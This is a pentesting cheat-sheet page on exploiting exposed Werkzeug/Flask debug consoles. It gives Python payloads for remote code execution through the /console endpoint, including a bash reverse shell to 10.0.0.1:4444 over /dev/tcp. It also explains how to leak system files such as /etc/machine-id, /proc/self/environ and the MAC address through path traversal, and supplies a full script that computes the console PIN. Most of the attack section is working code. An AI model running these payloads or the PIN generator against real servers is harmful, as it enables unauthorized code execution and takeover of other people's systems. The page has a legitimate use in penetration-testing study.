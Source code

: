 # Werkzeug

## Theory

Werkzeug is a comprehensive [WSGI](https://wsgi.readthedocs.io/en/latest/) web application library. It began as a simple collection of various utilities for WSGI applications and has become one of the most advanced WSGI utility libraries. It is commonly used for Flask web application.

## Practice

### Console RCE

If debug is active you could try to access to `/console` endpoint or to trigger a Werkzeug error and gain RCE.

{% tabs %}
{% tab title="Exploit" %}
```python
__import__('os').popen('whoami').read();
import os; print(os.popen("whoami").read())

# Reverse shell
__import__('os').popen('bash -c "bash -i >& /dev/tcp/10.0.0.1/4444 0>&1"').read()
```
{% endtab %}
{% endtabs %}

### Console PIN Exploit

In some occasions the **`/console`** endpoint is going to be protected by a pin. If you have a **file traversal vulnerability**, you can leak all the necessary info to generate that pin.

According to the Werkzeug [PIN generation source code](https://github.com/pallets/werkzeug/blob/main/src/werkzeug/debug/\_\_init\_\_.py), here are the needed variables to generate the PIN code:

<details>

<summary>Needed variables</summary>

Variables needed to exploit the console PIN:&#x20;

```python
probably_public_bits = [
    username,
    modname,
    getattr(app, '__name__', getattr(app.__class__, '__name__')),
    getattr(mod, '__file__', None),
]

private_bits = [
    str(uuid.getnode()),
    get_machine_id(),
]
```

</details>

<details>

<summary>probably_public_bits</summary>

#### username

This is the user who started this Flask instance. You may find it in `/proc/self/environ`

#### modname

It's flask.app

#### getattr(app, '**name**', getattr (app .\_\_ class\_\_, '**name**'))

is Flask

#### getattr(mod, '\_\_file\_\_', None)

is the absolute path of `app.py` in the flask directory (e.g. `/usr/local/lib/python3.5/dist-packages/flask/app.py`). If `app.py` doesn't work, try `app.pyc` \
You may find this information in the Werkzeug error message.

</details>

<details>

<summary>private_bits</summary>

#### uuid.getnode()

is the MAC address of the current computer, str(uuid.getnode()) is the decimal expression of the mac address.

To find server MAC address, need to know which network interface is being used to serve the app (e.g. ens3). If unknown, leak `/proc/net/arp` for device ID and then leak MAC address at `/sys/class/net/<device id>/address`.

Convert **from hex address to decimal** representation by running in python e.g.:

```python
# It was 56:00:02:7a:23:ac
>>> print(0x5600027a23ac)
94558041547692
```

#### get\_machine\_id()

concatenate the values in `/etc/machine-id` or `/proc/sys/kernel/random/boot_id` with the first line of `/proc/self/cgroup` after the last slash (/).

Use the following python script to get this value

```python
def get_machine_id() -> t.Optional[t.Union[str, bytes]]:                                                                                                  
    global _machine_id

    if _machine_id is not None:
        return _machine_id

    def _generate() -> t.Optional[t.Union[str, bytes]]:
        linux = b""

        # machine-id is stable across boots, boot_id is not.
        for filename in "/etc/machine-id", "/proc/sys/kernel/random/boot_id": 
            try:
                with open(filename, "rb") as f:
                    value = f.readline().strip()
            except OSError:
                continue

            if value:
                linux += value
                break

        # Containers share the same machine id, add some cgroup
        # information. This is used outside containers too but should be
        # relatively stable across boots.
        try:
            with open("/proc/self/cgroup", "rb") as f:
                linux += f.readline().strip().rpartition(b"/")[2]
        except OSError:
            pass

        if linux:
            return linux

        # On OS X, use ioreg to get the computer's serial number.
        try:
```

</details>

Once all variables prepared, run exploit script to generate Werkzeug console PIN:

<details>

<summary>Generate the PIN</summary>

You can use the following code with previous values to generate a valid PIN code

```python
import hashlib
from itertools import chain
probably_public_bits = [
    'web3_user',# username
    'flask.app',# modname
    'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python3.5/dist-packages/flask/app.py' # getattr(mod, '__file__', None),
]

private_bits = [
    '279275995014060',# str(uuid.getnode()),  /sys/class/net/ens33/address
    'd4e6cb65d59544f3331ea0425dc555a1'# get_machine_id(), /etc/machine-id
]

#h = hashlib.md5() # Changed in https://werkzeug.palletsprojects.com/en/2.2.x/changes/#version-2-0-0
h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')
#h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv =None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)
```

</details>

## Resources

{% embed url="https://exploit-notes.hdks.org/exploit/web/framework/python/werkzeug-pentesting" %}

{% embed url="https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug" %}
